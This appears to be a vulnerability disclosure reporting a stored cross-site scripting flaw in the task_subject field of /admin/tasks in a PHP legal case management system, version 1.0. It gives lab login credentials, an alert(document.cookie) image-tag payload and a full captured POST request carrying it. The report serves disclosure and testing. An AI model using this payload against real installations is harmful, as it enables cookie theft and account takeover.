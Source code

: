 ## Legal Case Management System

## XSS on `/admin/tasks`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/legal-case-management-system/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/admin/login
superadmin@gmail.com
12345678Ab@
```

### Affected Page:

```
/admin/tasks
```

The parameter `task_subject` is being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

### Proof of Concept:

Payload:

```
<img src=1 onerror="alert(document.cookie)">
```

Burp Request:

```
POST /admin/tasks HTTP/1.1
Host: 192.168.150.131
Content-Length: 277
Cache-Control: max-age=0
Origin: http://192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/admin/tasks/create
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF-TOKEN=eyJpdiI6InM3SklDaHp4YVFMZWJYTFwvZUtaOW9BPT0iLCJ2YWx1ZSI6IlBnekVlcmhcL0VoazFSSzlKSDRHUGZWTmVwZnliK3NEQjBrSVFVNFRoSnl2Z2RzU2hPeUZXMDVJUGRBV1IwaTBFIiwibWFjIjoiOTgzYmY3YjBjYTU4MTczZGVkODg4ODQ4YWViZDljNDZjZTBkYTM4MzJjNTI1ZGEwNDBlOGIxMzkwMTAwOThiMSJ9; test_session=eyJpdiI6InBuREhleTZtNGNiZjhUSUp6cUVvaUE9PSIsInZhbHVlIjoiT2dhb3NpUXJPaTFVUzg3VHg0TkZzYnFnZU94b05iYTR5Rmd1Ulp6TTJWMXV2VW0ydWRteHBDSVZmeVI4YnBjYiIsIm1hYyI6IjdmY2VkOTM0MzFiOTcwYTgxYTY4ODNiZjhiNjNmMjFhOTM4YWU0MDMwZmIxZWY5YWZlODNlM2I2ZGZlYzM3N2MifQ%3D%3D
Connection: close

_token=dIDWseikEM1UlakNR9wrVpwU77vwjBNR1ktwDT1O&task_subject=%3Cimg+src%3D1+onerror%3D%22alert%28document.cookie%29%22%3E&start_date=29-04-2024&end_date=29-05-2024&project_status_id=not_started&priority=medium&assigned_to%5B%5D=2&related=case&related_id=&task_description=tasks
```

### Screenshot

![image-20240508220830456](./screenshot/image-20240508220830456.png)
